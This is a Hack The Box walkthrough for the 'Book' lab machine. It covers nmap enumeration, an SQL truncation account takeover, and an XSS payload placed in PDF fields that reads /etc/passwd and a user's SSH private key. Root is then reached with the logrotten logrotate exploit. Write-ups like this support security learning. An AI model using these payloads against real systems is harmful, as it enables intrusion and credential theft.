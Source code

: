 ```yaml
---
layout: post
title:  Hack The Box - Book
category: walkthrough
date:   2020-07-25 07:00:00
---
```


# ![Book](/assets/img/book/book.png)  
<p align="center"> Book is a medium machine created by <a href="https:/www.hackthebox.eu/home/users/profile/13531">MrR3boot</a></p>  
  
  
  
# Enumeration
  
<center>As always, begin with nmap</center>  

### nmap  
  
>nmap -sC -sV -T4 -p 22,80 10.10.10.176  
>Starting Nmap 7.70 ( https://nmap.org ) at 2020-07-25 00:18 -03  
>Nmap scan report for 10.10.10.176  
>Host is up (0.19s latency).  
>  
>PORT   STATE SERVICE VERSION  
>22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
>| ssh-hostkey:   
>|   2048 f7:fc:57:99:f6:82:e0:03:d6:03:bc:09:43:01:55:b7 (RSA)  
>|   256 a3:e5:d1:74:c4:8a:e8:c8:52:c7:17:83:4a:54:31:bd (ECDSA)  
>|_  256 e3:62:68:72:e2:c0:ae:46:67:3d:cb:46:bf:69:b9:6a (ED25519)  
>80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))  
>| http-cookie-flags:   
>|   /:   
>|     PHPSESSID:   
>|_      httponly flag not set  
>|_http-server-header: Apache/2.4.29 (Ubuntu)  
>|_http-title: LIBRARY - Read | Learn | Have Fun  
>Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel  
>
>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
>Nmap done: 1 IP address (1 host up) scanned in 12.69 second    
  
<center>Opening the port 80 I got this</center>  
# ![book1](/assets/img/book/book1.png)
  
<center>After register I found the admin  email: admin@book.htb</center>  
# ![book2](/assets/img/book/book3.png)
  
<center>At first I didn't know what to do with this</center>  
<center>Until I back to home page, look the source and find this</center>  
# ![book3](/assets/img/book/book2.png)  
  
### <center>SQL Truncation</center>
  
<p align="center">Using <a href="https://resources.infosecinstitute.com/sql-truncation-attack/">SQL truncation</a> with Burp Suite I tested "name" and "email" fields with more characters</p>  
  
# ![book4](/assets/img/book/book4.png)  
  
<center>Logged in with the credentials admin@book.htb qwerty</center>  
  
# ![book5](/assets/img/book/book5.png)  
  
<p align="center">Using <a href="https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html">this</a> as reference I found a way in</p>  
  
### Exploit  
  
<center>Loged as user again I uploaded a pdf with the fields "author" and "book title" filled with this script (missing script tags) </center>  

  
*****
  
<center>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</center>  
  
*****  
  
  
<center>Downloading the pdf at http://10.10.10.176/admin/collections.php?type=collections I got the /etc/passwd</center>  

# ![book6](/assets/img/book/book6.png)  
  
<center>If I was runnin to get user blood next step would be "file:///home/reader/user.txt"</center>  
  
<center>Before get the id\_rsa from reader I tried root, perhaps...</center>  
  
<center>Now I know that there is a user called reader, I chnged the script part "///etc/passwd" to "/home/reader/.ssh/id\_rsa and uploaded a new pdf, downloaded it again and a got the id\_rsa from user reader</center>  
  
<center>Copy that to another file called id\_rsa and "chmod 600 id\_rsa"</center>  
  
# ![book7](/assets/img/book/book7.png)  
  
<center>Now just "ssh -i id\_rsa reader@10.10.10.176" and smile</center>  
  
# ![book8](/assets/img/book/book8.png)
  
  
# Privilege Escalation  
  
  
<center>After enumerate almost everything and don't find nothing</center>  
<p align="center">I used <a href="https://github.com/DominicBreuker/pspy.git">pspy</a> and find root process</p>  
<center>scp -i id\_rsa pspy64s reader@10.10.10.176</center>  
  
  
<center>pspy give me this process logrotate /usr/sbin/logrotate -f /root/log.cfg</center>  
  
# ![book9](/assets/img/book/book9.png)  
  
<p align="center">Search logrotate exploit in google and found <a href="https://github.com/whotwagner/logrotten">this</a> on github</p>  
<center>Cloned the repository and uploaded it with scp command</center>  
<center>Unziped the archive and compiled the logrotten.c with gcc</center>  
  
<center>gcc -o logrotten logrotten.c</center>  
  
<center>Created the payload  and executed logrotten</center>  
  
# ![book10](/assets/img/book/book10.png)  
  
<center>Now just cat /tmp/id\_rsa to another file and ssh to root</center>  
  
  
# ![book11](/assets/img/book/book11.png)  
# ![book12](/assets/img/book/book12.png)  
  

